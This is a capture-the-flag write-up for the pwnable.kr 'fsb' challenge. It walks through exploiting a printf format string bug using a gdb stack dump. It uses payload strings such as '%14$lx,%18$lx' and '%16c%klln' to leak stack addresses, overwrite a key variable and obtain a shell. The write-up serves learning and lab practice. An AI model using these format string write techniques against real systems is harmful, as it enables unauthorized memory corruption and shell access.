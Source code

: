 # pwnable.kr -- Rookiss -- fsb
If you are a expert of "%n" in `printf`, this challenge is easy.

## 1. Challenge
  > Isn't FSB almost obsolete in computer security?  
  > Anyway, have fun with it :)  
  >   
  > ssh fsb@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect via SFTP, get binary file `fsb` and source code `fsb.c`.

  * Open `fsb.c` you can see there is a FSB exploit in function `fsb`, LINE 25. And we have 4 chances to exploit it.

  * Run `fsb` in gdb, and make breakpoint at `*fsb+0xDC`. When trigger breakpoint, you can see:

    ```
    gdb-peda$ stack 128
    0000| 0xffffac90 --> 0x804a100 ("%-1$lx\n")
    0004| 0xffffac94 --> 0x804a100 ("%-1$lx\n")
    0008| 0xffffac98 --> 0x64 ('d')
    0012| 0xffffac9c --> 0x0
    0016| 0xffffaca0 --> 0x0
    0020| 0xffffaca4 --> 0x0
    0024| 0xffffaca8 --> 0x0
    0028| 0xffffacac --> 0x0
    0032| 0xffffacb0 --> 0x0
    0036| 0xffffacb4 --> 0x8048870 ("/bin/sh")
    0040| 0xffffacb8 --> 0x0
    0044| 0xffffacbc --> 0x1
    0048| 0xffffacc0 --> 0xffffd118 --> 0x0
    0052| 0xffffacc4 --> 0xffffdfda --> 0x6f682f00 ('')
    0056| 0xffffacc8 --> 0xfffface0 --> 0x0
    0060| 0xffffaccc --> 0xfffface4 --> 0x0
    0064| 0xffffacd0 --> 0x0
    0068| 0xffffacd4 --> 0x0
    0072| 0xffffacd8 --> 0xffffcf68 --> 0x0
    0076| 0xffffacdc --> 0x8048791 (<main+178>:	mov    eax,0x0)
    0080| 0xfffface0 --> 0x0
    0084| 0xfffface4 --> 0x0
    0088| 0xfffface8 --> 0x0
    0092| 0xffffacec --> 0x0
    0096| 0xffffacf0 --> 0x0
    ```

    As it is x86 platform, function `printf` uses `__cdecl` calling convention. So `"%1$lx"` can print the hex value stored in address `$esp + 4`. `"%11$lx"` prints `dword ptr[$esp + 11 * 4]` and so on.

    Watch the stack info, we can find that `$esp + 56` stores the address of function `fsb`'s first argument. And `$esp + 72` stores the previous `EBP`.

    Then in gdb, type `x /128xw *(void**)$ebp-128*4` to see the stack info of function `main`. We can find that `*(void**)$ebp-17*4`, which also is `prev_ebp-17*4` stores the address of `key`.

  * So, the first time we use `"%14$lx,%18$lx"` to get the address of function `fsb`'s first argument and previous `EBP`, `prev_ebp`.

    Calculate the offset between `$esp` and `prev_ebp-17*4` and use `"%16c%klln"` to overwrite the value of `key` to 16, where `k` is the offset calculated out divided by 4.

  * After that `key` has been modified to 16 and we don't need the last of 4 exploit chances.

  * Finally wait for at least 3 second, and send `"16"` to get shell.
  
